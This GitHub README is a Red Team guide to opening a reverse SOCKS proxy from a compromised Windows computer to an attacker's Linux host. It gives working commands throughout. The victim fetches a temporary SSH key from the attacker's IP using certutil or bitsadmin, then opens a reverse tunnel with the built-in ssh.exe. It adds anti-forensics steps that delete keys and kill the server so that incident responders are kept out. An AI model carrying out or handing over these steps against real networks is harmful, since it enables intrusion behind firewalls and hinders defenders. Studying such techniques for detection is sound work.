 # win-ssh-rvsproxy
Tunneling Socks proxy through Windows.

This document presents a Red Team approach for SSH tunneling to a Socks proxy on a compromised Windows computer from an external attacker-controlled Linux host.  How the Windows computer is compromised is not covered here; the assumption is that you have a way to run commands on the victim host.

The following diagram shows the scenario.  An external attacker system (A) is running sshd to allow tunnel creation, and will also run python SimpleHTTPServer to serve an ephemeral SSH key to allow the Windows computer (B) to log in.  The Windows target (B) will execute the built-in ssh.exe command line utility and create a Socks proxy, through which the attacker (A) can access other systems protected behind the firewall, such as the web server (C).

![alt text](https://github.com/billchaison/win-ssh-rvsproxy/blob/main/01.png)

**Preparing the attack host**<br />

* On host (A) create a disposable SSH key pair.  The key will be destroyed after use in order to prevent reuse by incident responders.<br /><br />
  `cd /root`<br /><br />
  `ssh-keygen -t rsa -b 2048 -N "" -f /root/temp_rsa -q`<br /><br />
  `cat /root/temp_rsa.pub >> /root/.ssh/authorized_keys && chmod 600 /root/.ssh/authorized_keys`<br /><br />
* On host (A) launch python simple HTTP server.  This will allow the victim computer (B) to dynamically fetch the temporary private SSH key to login and start the tunnel.<br /><br />
  `python -m SimpleHTTPServer 80`<br />

**Start the proxy server**<br />

* On the victim Windows computer (B) you will need to find a way to copy the SSH private key to the user's `%tmp%` path in this example.  Two possibilities are as follows.<br /><br />
  `%SYSTEMROOT%\System32\bitsadmin.exe /transfer n http://192.168.1.242/temp_rsa %tmp%\temp_rsa`<br /><br />
  `%SYSTEMROOT%\System32\certutil.exe -urlcache -split -f http://192.168.1.242/temp_rsa %tmp%\temp_rsa`<br /><br />
* On the victim Windows computer (B) create the reverse proxy and tunnel.  Once connected to the attacker computer (A) the temporary key will be stripped from the authorized_keys file and the python web server will be terminated.  Also the private key stored on machine (B) under `%tmp%` will be deleted after the tunnel is destroyed by the attacker.  These are anti-forensics techniques to prevent incident responders from gaining access to your attacker machine (A).<br /><br />
  `%SYSTEMROOT%\System32\OpenSSH\ssh.exe -o StrictHostKeychecking=no -i %tmp%\temp_rsa -R localhost:1080 root@192.168.1.242 "grep -v -f /root/temp_rsa.pub /root/.ssh/authorized_keys > /root/.ssh/authorized_keys.bak && mv /root/.ssh/authorized_keys.bak /root/.ssh/authorized_keys && kill $(lsof -t -i:80) && bash" & del %tmp%\temp_rsa`<br />

**Using the reverse proxy**<br />

From the attacker host (A) you can configure a browser to use the local Socks proxy on 127.0.0.1 port 1080.  You should now be able to access the protected web server (C) by going to `https://10.1.2.4`

Any other protected service behind the firewall could be accessed through Socks tunnel as long as the tools on the attacking machine (A) support Socks or you have proxychains configured to use 127.0.0.1 port 1080.
